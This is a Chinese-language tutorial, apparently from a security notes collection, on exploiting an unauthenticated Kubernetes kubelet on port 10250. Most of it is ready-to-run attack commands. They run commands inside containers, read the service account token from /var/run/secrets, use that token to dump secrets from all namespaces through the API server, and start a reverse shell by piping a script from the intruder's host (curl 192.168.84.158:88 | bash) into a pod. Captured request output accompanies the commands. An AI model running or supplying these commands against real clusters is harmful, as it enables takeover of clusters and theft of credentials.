 ## 攻击k8s的10250端口

### 原理

10250端口是 kubelet API 的 HTTPS 端口。默认情况下，kubelet 监听的 10250 端口没有进行任何认证鉴权，导致通过这个端口可以对 kubelet 节点上运行的 pod 进行任何操作。

kubelet: 运行在每一个 Node 节点上的客户端，负责 Pod 对应的容器创建，启动和停止等任务，同时和Master节点进行通信，实现集群管理的基本功能。

### 利用过程

#### 获得 token

首先需要确定 node 是否存在未授权问题。访问`https://ip:10250/pods`，出现如下数据表示可以利用：
![](_v_images/20200503154244202_11318.png)

执行`curl -k -XPOST "https://k8s-node-1:10250/run/%namespace%/%pod_name%/%container_name%" -d "cmd=ls -la /"`即可在对应的容器里执行命令：
![](_v_images/20200503164341653_25229.png)

现在问题变成了如何确定 namespace、pod_name、container_name。访问`https://ip:10250/pods`并查找 selfLink，会有一个类似【/api/v1/namespaces/test1/pods/web-docker-594dd9789f-fc9d9】的值，其中 namespaces 就是后面的 test1，同理 pods 就是后面的 web-docker-594dd9789f-fc9d9。如果执行失败，可以看看 phase 的状态是不是 fail，是的话就换一个 phase 是 running 的再试试。
![](_v_images/20200503164353941_16403.png)

token 默认会保存在通过命令 pod 里的 /var/run/secrets/kubernetes.io/serviceaccount/token。通过`curl -k -XPOST "https://ip:10250/run/cattle-system/cattle-cluster-agent-549fc45d6f-lf7hp/cluster-register" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"`获得 token
![](_v_images/20200503164405340_5904.png)

如果不在这个位置，可用 mount 命令来查找：
![](_v_images/20200503164638364_12249.png)

#### 获得 master 访问权

接下来可以尝试获得master（api server）的访问权限。

默认情况下，api server开发的端口为6443，所以扫描同个网段开放6443的主机来挨个尝试。除了这种方法，还可以尝试执行env命令来查看是否有api server的地址或者其他敏感信息：
![](_v_images/20200505204844463_7258.png)

执行命令`kubectl --insecure-skip-tls-verify=true  --server="https://ip:6443"  --token="eyJhbG......"  get secrets --all-namespaces -o json`，如果提示【error: You must be logged in to the server (Unauthorized)】就是token和api server不匹配。
![](_v_images/20200503170140189_1777.png)

#### 获得node里pod的shell

入侵者在本机搭建web服务，通过在node上的pod里执行反弹语句来获得node的shell。192.168.84.158:88是入侵者的web服务，写了反弹shell：
![](_v_images/20200505182316365_15605.png)

`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"`
不行就试试下面的：
`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/sh&command=-c&command=curl+192.168.84.158:88+|+sh&input=1&output=1&tty=1"`
![](_v_images/20200505182330370_13872.png)
```bash
[root@localhost ~]# curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"
* About to connect() to 192.168.4.68 port 10250 (#0)
*   Trying 192.168.4.68...
* Connected to 192.168.4.68 (192.168.4.68) port 10250 (#0)
* Initializing NSS with certpath: sql:/etc/pki/nssdb
* skipping SSL peer certificate verification
* SSL connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate:
* 	subject: CN=192.168.4.68@1544518989
* 	start date: 12月 11 09:03:09 2018 GMT
* 	expire date: 12月 11 09:03:09 2019 GMT
* 	common name: 192.168.4.68@1544518989
* 	issuer: CN=192.168.4.68@1544518989
> POST /exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1 HTTP/1.1
> User-Agent: curl/7.29.0
> Host: 192.168.4.68:10250
> Accept: */*
> X-Stream-Protocol-Version: v2.channel.k8s.io
> X-Stream-Protocol-Version: channel.k8s.io
> 
< HTTP/1.1 302 Found
< Location: /cri/exec/zEKYcaZt  //查看执行结果
< Date: Wed, 07 Aug 2019 06:01:42 GMT
< Content-Length: 0
< Content-Type: text/plain; charset=utf-8
< 
* Connection #0 to host 192.168.4.68 left intact
[root@localhost ~]# 
```

执行如下语句查看命令执行结果
`[root@localhost ~]# docker run -it --rm  joshgubler/wscat -c "https://192.168.4.68:10250/cri/exec/zEKYcaZt" --no-check`
![](_v_images/20200505182349490_27885.png)

此时我们是在node的pod里，在反弹的shell里查看master的内部ip
![](_v_images/20200505182403040_27930.png)

尝试连接k8s master地址
```bash
[root@localhost ~]# TOKEN_VALUE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
[root@localhost ~]# curl -k --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H  "Authorization: Bearer $TOKEN_VALUE" https://10.0.0.1:443/api/v1/pods
```  


参考：
https://www.lijiaocn.com/%E9%97%AE%E9%A2%98/2018/07/20/kubernetes-docker-cpu-high.html
https://segmentfault.com/a/1190000002937665
http://blog.allen-mo.com/2019/04/29/k8s-security-serviceaccount/
https://stackoverflow.com/questions/51176283/how-to-create-pod-from-rest-api
https://raesene.github.io/blog/2016/10/08/Kubernetes-From-Container-To-Cluster/
http://carnal0wnage.attackresearch.com/2019/01/kubernetes-unauth-kublet-api-10250.html
https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/